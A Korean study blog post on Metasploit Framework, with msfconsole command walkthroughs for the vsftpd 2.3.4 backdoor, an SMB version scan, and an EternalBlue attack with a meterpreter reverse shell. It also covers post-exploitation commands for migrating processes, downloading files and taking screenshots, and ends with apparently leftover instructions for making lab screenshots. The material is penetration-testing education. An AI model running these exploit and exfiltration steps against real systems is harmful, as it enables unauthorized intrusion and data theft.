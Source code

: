 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

알려진 백도어 취약점이 있는 `vsftpd 2.3.4` 버전을 대상으로 Metasploit을 이용해 시스템 쉘을 획득하는 상황이다.

```bash
# 1. msfconsole 실행
msfconsole

# 2. vsftpd 관련 모듈 검색
msf6 > search vsftpd

# 3. 백도어 익스플로잇 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 4. 옵션 확인
msf6 exploit(...) > show options

# 5. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.9.200.11

# 6. 공격 실행
msf6 exploit(...) > exploit
```
   ![MetasploitVsftpd](/assets/images/Meta_1.png)

`exploit` 명령 실행 후 익스플로잇이 성공하면 대상 서버의 `root` 권한 쉘이 획득된 것을 확인할 수 있다. `whoami` 명령어를 통해 이를 증명할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다. 예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > search smb_version
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(...) > set RHOSTS 192.9.200.11

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```
   ![MetasploitSmb](/assets/images/Meta_2.png)

`run` 명령 실행 후 대상 서버의 운영체제 정보와 Samba 버전 정보가 출력된다. 이 정보는 추후 해당 버전에 맞는 익스플로잇을 찾는 데 사용될 수 있다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집, 프로세스 제어, 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **1. 익스플로잇 및 페이로드 설정**
```bash
# 이터널블루 익스플로잇 모듈 선택
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
msf6 exploit(...) > set RHOSTS [Target Windows IP]
msf6 exploit(...) > set LHOST [Attacker IP]

# 페이로드를 Meterpreter로 설정 (보통 자동으로 설정됨)
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 공격 실행
msf6 exploit(...) > exploit
```

#### **2. Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

   ![MetasploitSession](/assets/images/Meta_3.png)

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Metasploit vsftpd 공격 성공 이미지 제작**

1.  (준비) 공격 대상 서버에 취약한 버전의 `vsftpd 2.3.4`를 설치하고 실행시켜 둡니다.
2.  공격자 PC에서 `msfconsole`을 실행합니다.
3.  위 `4. 사용 예시` 섹션에 있는 2번부터 6번까지의 명령어를 순서대로 `msfconsole`에 입력하고 실행합니다.
4.  마지막 `exploit` 명령이 성공하면, `Command shell session 1 opened` 라는 메시지와 함께 대상 서버의 쉘 프롬프트가 나타납니다.
5.  획득한 쉘에서 `whoami` 명령어를 입력하여 `root`가 출력되는 것을 보여줍니다.
6.  `msfconsole` 시작부터 `whoami` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 모두 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여줍니다.
    *   **선택:** `use exploit/unix/ftp/vsftpd_234_backdoor` 명령어 부분
    *   **설정:** `set RHOSTS 192.9.200.11` 명령어 부분
    *   **결과:** `Command shell session 1 opened` 메시지와 `whoami` 결과인 `root` 부분
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (SMB 스캔 결과)**

1.  (준비) `msfconsole`의 새 창을 열거나, 이전 세션에서 `back` 명령어로 초기 상태로 돌아옵니다.
2.  위 `5. 사용 예시 2`의 `search`부터 `run`까지의 명령어를 순서대로 입력합니다.
3.  `run` 명령이 성공하면 `Host is running ... (Samba ...)` 와 같이 대상 서버의 OS와 Samba 버전 정보가 포함된 결과가 출력됩니다.
4.  이 과정이 모두 포함된 터미널 화면을 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 `use auxiliary/...` 명령어와, 결과로 출력된 `Host is running...` 라인 전체에 하이라이트를 적용하여 저장합니다.

#### **이미지 3 제작 (Meterpreter 세션 획득 및 활용)**

1.  (준비) 공격 대상이 될 취약한 윈도우 가상머신(예: Metasploitable 3)을 준비한다.
2.  `msfconsole`에서 위 `6. 사용 예시 3`의 1단계 명령어를 순서대로 입력하여 공격을 실행한다.
3.  `exploit` 명령이 성공하면, `meterpreter session 1 opened` 메시지와 함께 `meterpreter >` 프롬프트가 나타난다.
4.  획득한 Meterpreter 세션에서 `sysinfo`와 `getuid` 명령어를 차례로 실행하여 시스템 정보와 `NT AUTHORITY\SYSTEM` 권한을 확인한다.
5.  `ps` 명령어를 실행하여 프로세스 목록이 출력되는 것을 보여준다.
6.  `msfconsole` 시작부터 `ps` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍는다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여준다.
    *   **설정:** `set RHOSTS`, `set LHOST` 등 옵션 설정 부분
    *   **세션 획득:** `meterpreter session 1 opened` 메시지 부분
    *   **명령 실행:** `sysinfo`, `getuid`, `ps` 명령어와 그 결과 부분
9.  수정된 이미지를 저장하여 게시글에 삽입한다.
